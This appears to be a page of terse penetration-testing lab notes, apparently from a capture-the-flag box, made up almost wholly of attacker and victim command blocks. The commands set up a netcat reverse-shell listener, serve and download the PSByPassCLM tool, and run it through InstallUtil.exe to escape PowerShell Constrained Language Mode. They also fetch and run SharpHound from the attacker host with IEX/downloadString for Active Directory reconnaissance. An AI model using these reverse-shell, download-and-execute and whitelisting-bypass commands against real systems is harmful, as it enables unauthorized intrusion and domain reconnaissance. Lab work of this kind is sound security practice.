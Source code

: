 > **Attacker Machine**:

```bash
rlwrap nc -nlvp 443
```

> **Victime Machine**:

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.2 /rport=443 /U C:\Windows\Temp\privesc\PsBypassCLM.exe
# :( ??
```

> **Attacker Machine**:

```bash
git clone https://github.com/padovah4ck/PSByPassCLM
cd ./PSByPassCLM/PSBypassCLM/PSBypassCLM/bin/x64/debug
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
iwr -uri http://10.10.14.2/PsBypassCLM.exe -OutFile .\PsBypassCLM.exe
```

> **Attacker Machine**:

```bash
rlwrap nc -nlvp 443
```

> **Victime Machine**:

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.2 /rport=443 /U C:\Windows\Temp\privesc\PsBypassCLM.exe
# :)

whoami
hostname
$ExecutionContext.SessionState.LanguageMode
# FullLanguage        :)
```

> **Attacker Machine**:

```bash
python3 -m http.server 80
cat SharpHound.ps1 | grep -i invoke
# PS C:\> Invoke-BloodHound -CollectionMethods All
```

> **Victime Machine**:

```cmd
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/SharpHound.ps1')
# :(
iwr -uri http://10.10.14.2/SharpHound.ps1 -OutFile ./SharpHound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethods All
# :(
```

